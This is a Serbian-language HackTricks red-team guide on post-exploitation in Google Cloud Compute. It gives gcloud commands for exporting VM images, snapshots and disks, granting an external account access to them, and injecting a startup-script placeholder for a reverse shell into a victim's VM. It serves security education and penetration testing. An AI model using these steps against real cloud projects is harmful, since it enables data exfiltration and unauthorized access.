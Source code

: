 # GCP - Post Eksploatacija Računara

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Računar

Za više informacija o Računaru i VPC (Mreženje) proverite:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Izvoz & Inspekcija Slika lokalno

Ovo bi omogućilo napadaču da **pristupi podacima sadržanim unutar već postojećih slika** ili **napravi nove slike pokrenutih VM-ova** i pristupi njihovim podacima bez pristupa pokrenutom VM-u.

Moguće je izvesti VM sliku u bucket, a zatim je preuzeti i montirati lokalno pomoću komande:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Pre izvođenja ove radnje, napadač možda će trebati privilegije nad skladištem i svakako **privilegije nad cloudbuild** jer je to **servis** koji će biti tražen da izvrši izvoz.\
Osim toga, da bi ovo funkcionisalo, kôdgradi SA i računarski SA trebaju imati privilegovane dozvole.\
Cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` treba:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

A SA `<project-id>-compute@developer.gserviceaccount.com` treba:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Izvoz & Inspekcija snimaka i diskova lokalno

Nije moguće direktno izvesti snimke i diskove, ali je moguće **transformisati snimak u disk, disk u sliku** i prateći **prethodni odeljak**, izvesti tu sliku radi inspekcije lokalno

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Pregledajte sliku kreirajući VM

Sa ciljem pristupa **podacima sačuvanim na slici** ili unutar **pokrenutog VM-a** odakle je napadač **kreirao sliku**, moguće je omogućiti pristup spoljnom nalogu preko slike:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
zatim kreirajte novu virtuelnu mašinu iz nje:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ako niste mogli dati pristup vašem spoljnom nalogu preko slike, možete pokrenuti VM koristeći tu sliku u žrtvinom projektu i **naterati metapodatke da izvrše obrnutu ljusku** kako biste pristupili slici dodavanjem parametra:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Pregledajte snimak/disk tako što ga povežete sa VM

Sa ciljem pristupa **podacima koji se čuvaju na disku ili snimku, možete pretvoriti snimak u disk, disk u sliku i pratiti prethodne korake.**

Ili možete **dodeliti spoljnom nalogu pristup** disku (ako je početna tačka snimak, dajte pristup preko snimka ili napravite disk od njega):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Povežite disk** sa instancom:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montirajte disk unutar virtuelne mašine:

1. **SSH na VM**:

```sh
gcloud compute ssh [IME_INSTANCA] --zone [ZONA]
```
2. **Identifikujte disk**: Kada ste unutar VM, identifikujte novi disk tako što ćete izlistati disk uređaje. Tipično, možete ga pronaći kao `/dev/sdb`, `/dev/sdc`, itd.
3. **Formatirajte i montirajte disk** (ako je novi ili sirov disk):
*   Kreirajte tačku montiranja:

```sh
sudo mkdir -p /mnt/disks/[DIREKTORIJUM_ZA_MONTIRANJE]
```
*   Montirajte disk:

```sh
sudo mount -o discard,defaults /dev/[UREĐAJ_ZA_DISK] /mnt/disks/[DIREKTORIJUM_ZA_MONTIRANJE]
```

Ako **ne možete dati pristup spoljnom projektu** za snimak ili disk, možda ćete morati **izvršiti ove akcije unutar instance u istom projektu kao snimak/disk**.
